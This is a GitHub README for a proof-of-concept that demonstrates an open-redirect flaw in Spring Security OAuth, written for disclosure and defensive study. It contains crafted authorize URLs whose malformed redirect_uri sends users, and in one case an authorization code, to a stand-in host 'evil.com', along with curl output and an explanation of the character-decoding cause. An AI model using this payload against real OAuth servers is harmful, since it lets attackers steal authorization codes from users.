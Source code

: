 # oauth2-open-redirect-sample

POC around https://github.com/spring-projects/spring-security-oauth/issues/1566

## 1) start app

```
./gradlew bootRun

```

## 2a) POC - Redirect without login (response type unknown)

open the following url in your browser / curl

    http://localhost:8080/oauth/authorize?client_id=clientId&redirect_uri=http://evil.com%80@trusted.com&response_type=bogus

-> RESULT: `302 Redirect` to `evil.com` which can be seen in the curl output (see `Location` response header):

```
$ curl -v "http://localhost:8080/oauth/authorize?client_id=clientId&redirect_uri=http://evil.com%80@trusted.com&response_type=bogus"
  *   Trying ::1...
  * TCP_NODELAY set
  * Connected to localhost (::1) port 8080 (#0)
  > GET /oauth/authorize?client_id=clientId&redirect_uri=http://evil.com%80@trusted.com&response_type=bogus HTTP/1.1
  > Host: localhost:8080
  > User-Agent: curl/7.54.0
  > Accept: */*
  >
  < HTTP/1.1 302
  < Location: http://evil.com?@trusted.com?error=unsupported_response_type&error_description=Unsupported%20response%20types:%20%5Bbogus%5D
  < Content-Language: en-US
  < Content-Length: 0
  < Date: Fri, 25 Jan 2019 05:10:00 GMT
  <
  * Connection #0 to host localhost left intact
```

## 2b) POC - Redirect with authorization code


1) open the following url in your browser

    http://localhost:8080/oauth/authorize?client_id=clientId&redirect_uri=http://evil.com%80@trusted.com&grant_type=authorization_code&response_type=code
    
2) Login with 'user' / 'password'

3) Observe 302 redirect with authorization code to attacker website, e.g. 

    http://evil.com/?@trusted.com?code=HSJwVn

## Explanation:

Tomcat 8 defaults to `UTF-8` to decode request params. `%80` can't be decoded as it's an invalid `UTF-8` hence it gets replaced by `� `. This character isn't a valid in `ISO 8859-1` which is used to serialize headers. This character gets replaced with `?` which leads to open redirect whenever oauth2 redirects back to the resource service (in both _success_ or _error_ cases!!!).
